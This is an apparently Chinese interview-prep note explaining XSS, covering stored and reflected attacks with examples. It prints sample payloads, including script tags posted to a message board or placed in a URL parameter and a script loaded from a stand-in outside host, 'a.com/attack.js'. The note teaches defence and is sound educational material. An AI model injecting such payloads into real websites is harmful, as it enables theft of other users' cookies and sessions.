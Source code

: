 # 跨站脚本：XSS

> 涉及面试题：什么是 XSS 攻击？如何防范 XSS 攻击？什么是 CSP？

## **定义**

XSS（跨站脚本 Cross site scripting，通常简称：XSS） 简单点来说，**就是攻击者利用网站漏洞将可执行的代码注入到其他用户浏览器**。

## **分类**

XSS 可以分为多种类型，但是总体上我认为分为两类：持久型和非持久型。
攻击者将注入型脚本提交至被攻击网站数据库中，

> **持久型（存储型）：**

【解释】：**持久型也就是攻击脚本被服务端写入进数据库中**，这种攻击危害性很大，当其他用户浏览器请求数据时，**注入的攻击脚本从服务器返回并执行**，就会导致大量正常访问页面的用户都受到攻击。
【要点】：

- 恶意代码存储在目标网站服务器上。
- 有服务端参与。
- 只要用户访问被注入恶意脚本的页面时，就会被攻击。

【例子】：

- 例一：攻击者在目标网站留言板中提交了`<script src="http://a.com/attack.js"/>`。
  **目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过 innerHTML 渲染到页面中**。
  其他用户在访问该留言板时，会自动执行攻击者注入脚本。

- 例二：对于评论功能来说，就得防范持久型 XSS 攻击，因为我可以在评论中输入以下内容`<script>alert(1)</script>`，这种情况如果前后端没有做好防御的话，这段评论就会被存储到数据库中，这样每个打开该页面的用户都会被攻击到。

> **非持久型：**

【原理】：攻击者通过在 URL 插入恶意代码，其他用户访问该恶意链接时，服务端在 URL 取出恶意代码后拼接至 HTML 中返回给用户浏览器。

非持久型相比于前者危害就小的多了，**一般通过修改 URL 参数的方式加入攻击代码，诱导用户访问链接从而进行攻击**。

【要点】

- 通过 URL 插入恶意代码。
- 需要用户访问特定链接。

【例子】：举个例子，如果页面需要从 URL 中获取某些参数作为内容的话，不经过过滤就会导致攻击代码被执行（可以通过这个获取对方的 Cookie 等）。

```js
// http://www.domain.com?name=<script>alert(1)</script>
// http://www.domain.com?name=<script src="http://a.com/attack.js"/>

<div>{{ name }}</div>
```

但是对于这种攻击方式来说，如果用户使用 Chrome 这类浏览器的话，浏览器就能自动帮助用户防御攻击。但是我们不能因此就不防御此类攻击了，因为我不能确保用户都使用了该类浏览器。

![xss-example-1](../imgs/xss-example-1.png)